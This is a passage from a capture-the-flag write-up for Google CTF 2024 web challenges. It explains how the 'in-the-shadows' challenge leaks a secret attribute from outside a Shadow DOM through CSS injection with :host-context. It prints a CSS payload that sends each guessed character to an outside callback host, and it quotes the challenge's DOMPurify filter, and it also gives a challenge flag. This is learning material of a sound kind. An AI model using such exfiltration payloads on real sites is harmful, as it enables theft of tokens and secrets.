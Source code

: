 And after a few tries with the remote bot, we get the flag:

**CTF{iframes_are_pretty_dtough!fe050f75c9306d9da3469e131ba9f967}**

<a name="in-the-shadows"></a>
## in-the-shadows (420 pts, 5 solves) - Web

Description:
```
Within this digital haunt, your touch may craft an HTML missive, a fleeting connection between kindred spirits across the vast expanse. The Shadow DOM stands as a silent guardian, shielding your words from the prying eyes of the digital ether.

NOTE: The intended solution for this challenge has no more than 4k characters, don't expect longer URLs to work.

URL: https://in-the-shadows-web.2024.ctfcompetition.com/
```

Hardest web of the competition. We are once again given a report link so it seems like a potential XSS challenge. However, DOMPurify is used and we are inside a [Shadow DOM](https://developer.mozilla.org/en-US/docs/Web/Web_Components/Using_shadow_DOM), which should prevent any kind of leaks, right?

**Stealing html attributes via CSS injection:** CSS injection is already well known, and it can be used to steal html attributes which can be quite sensitive, like passwords or tokens. There's this great [repository by PortSwigger](https://github.com/PortSwigger/css-exfiltration) which highlights a lot of different ways to exfiltrate data via CSS. 

**But we are in a Shadow DOM:** You would think that the Shadow DOM is supposed to prevent CSS injection, but it's not perfect. We found out that we can use [:host-context](https://developer.mozilla.org/en-US/docs/Web/CSS/:host-context) to style our Shadow DOM based on elements from the Light DOM. This is great because the goal is to steal the `secret` attribute of the outside `body` element. So having something like:
```css
:host-context([secret^=0]) span { background: url(https://leak.wtl.pw/callback?token=0&id=965237289); }
```
Would only set the background of the span if the `secret` attribute of the `body` element starts with `0`.

**Bypassing restrictions:** There is a custom DOMPurify extension that prevents the use of `:` in css, as it can be seen here:
```js
function shouldDeleteRule(rule) {
  if (
    rule instanceof CSSImportRule ||
    rule instanceof CSSMediaRule ||
    rule instanceof CSSFontFaceRule ||
    rule instanceof CSSLayerBlockRule ||
    rule instanceof CSSLayerStatementRule ||
    rule instanceof CSSNamespaceRule ||
    rule instanceof CSSSupportsRule ||
    rule instanceof CSSPageRule ||
    rule instanceof CSSPropertyRule
  ) {
    return true;
  }
  // :has, :before etc. are potentially dangerous.
  if (rule instanceof CSSStyleRule && rule.selectorText.includes(":")) {
    return true;
  }
  return false;
}
```
